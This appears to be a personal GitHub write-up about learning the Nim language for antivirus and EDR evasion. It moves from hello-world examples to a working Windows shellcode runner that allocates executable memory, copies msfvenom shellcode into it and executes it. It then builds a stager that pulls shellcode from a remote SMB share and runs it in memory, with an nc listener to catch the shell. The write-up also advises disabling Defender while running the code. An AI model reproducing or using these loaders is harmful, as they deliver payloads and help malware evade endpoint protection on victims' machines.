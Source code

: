 # Overview
I keep seeing AV / EDR evasion tools being developed in Nim and thought I should look into the language. Going to break this down into a few steps.
1. Hello world program (obvs)
2. Hello world program with a function
3. Hello world program calling a native command
4. Generics (Java objects back to haunt me)
5. Shellcode runner (Small jump ik)
6. Stager which get file from the *cloud* (ooo buzz words.)

# Installing Nim
1. Google Nim
2. Click the link from the Nim website
3. Download and install Nim
4. Spend 1 hr trying to figure out why it wont compile.
5. Go back to website and read the page
6. Install gcc
7. Now compile a simple program (in cmd `nim c <filename>`)
8. TaDa Nim developer

# Hello World x3
## Part 1
Super easy its legit just
```c
echo "Hello World!"
```

compile with
```bash
nim c hello.nim
```

## Part 2
So coming from a python background the syntax is close enough that I can guess what it does. The weird thing is that `=` sign at the end.
```c
proc <name>(): <output_type> =
```

Besides the syntax still easy:
```c
proc hello(): string =
    return "Hello World!"

echo hello()
```

## Part 3
As the end result is to get windows api calls probs best to try to figure out how to call system commands.

So the "hello world" of powershell commands: `gci`

You can call shell commands by importing `osproc`

```c
import osproc

proc command(): string = 
    var output: string
    output = exec_cmd_ex("powershell.exe gci").output
    return output

echo command()
```

I really like how you can just call `.ouput` and it will save both the ouput and the format into a string var. (The powershell font gets messed up but meh)


# Generics
Why cant this just be done behind the scenes like in python. :(

tbf its not that bad. So most shellcode payloads are byte arrays so you need a size and type. In Nim generics you can do this by passing `[I,T]` as parameters. The syntax gets weird.
```c
proc <command_name>[I,T](<var_name: var array[I,T]): <output_type> =
```

So to pass an array it would be:
```c
import osproc

proc command[I,T](payload: var array[I,T]): string =
    return payload

var num = ["1","2"]
echo command(num)

```

# Shellcode runner
The easiest way to just run shell code is to do virtualalloc, memcopy and then run the memory block. That's exactly what we are going to do. There is a module that let's us call win api functions. You can install it with nimble (just like pip3 but for nim)
```
import winim/lean
```

Generate some shellcode with msfvenom and output it as csharp.
```c
import winim/lean

proc main(): void = 
    var shellcode: array[<sizeofshellcode>,byte] = [
        byte <shellcode> ]

    var buffer = VirtualAlloc(nil, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    copyMem(buffer, shellcode[0].addr, sizeof shellcode)

    cast[proc(){.nimcall.}](buffer)()

main()

```

Let's go over the code.

Line 3: is just declaring the array just like before but instead of using generics the values are hard coded.

Line 5: Calling virtalalloc just like you would in c, using nil for the LPVOID null value.

Line 6: This is the exact same as memcopy. The second argument needs to be a pointer to the shellcode. So this is done by grabbing the first item (the start of the byte array) and calling addr on it. This will give the memory location of the shellcode.

Line 7: It just casts the shellcode to the write data type and runs it with the `()`

Make sure to disable defender when compiling and running the code.
# Stager
This is going to be the exact same as the shellcode runner but instead of having the shellcode in the file it is going to read it as a file from a remote smb server. I'm going to set up an impacket smbserver and a nc shell in aws cause I have an aws linux box and need to use it for something.

## Nim code bit
The nim code section is two bits

The first being downloading the file:
```c
var filename = "\\\\<ip>\\smb\\code.bin"
var file: File = open(filename, fmRead)
var fileSize = file.getFileSize()

var shellcode = newSeq[byte](fileSize)
discard file.readBytes(shellcode,0,fileSize)
```

So the shellcode is saved in the shellcode variable, which is a sequence of bytes. This is very similar to an array but has a `@` symbol at the start. (idk why.)

Now just add the exact same win api code. Giving the final source code of:
```c
import winim/lean

var filename = "\\\\<ip>\\smb\\code.bin"
var file: File = open(filename, fmRead)
var fileSize = file.getFileSize()

var shellcode = newSeq[byte](fileSize)
discard file.readBytes(shellcode,0,fileSize)
   
var buffer = VirtualAlloc(nil,fileSize,MEM_COMMIT, PAGE_EXECUTE_READWRITE)
copyMem(buffer,shellcode[0].addr,fileSize)

cast[proc(){.nimcall.}](buffer)()
```

## Architecture (as in a two processes)
Impacket smb server to host the payload and a nc shell to catch it.

(idk why I made this a title)


# More Nim?
Maybe it's a lot easier then C / C++ but tbh I'll probs just do everything twice and learn both languages.

Next project will either be a working MAC addr encoder (atm I'm stuck with the shell not calling back) or some sort of xor encryptor to get use to decoding in memory.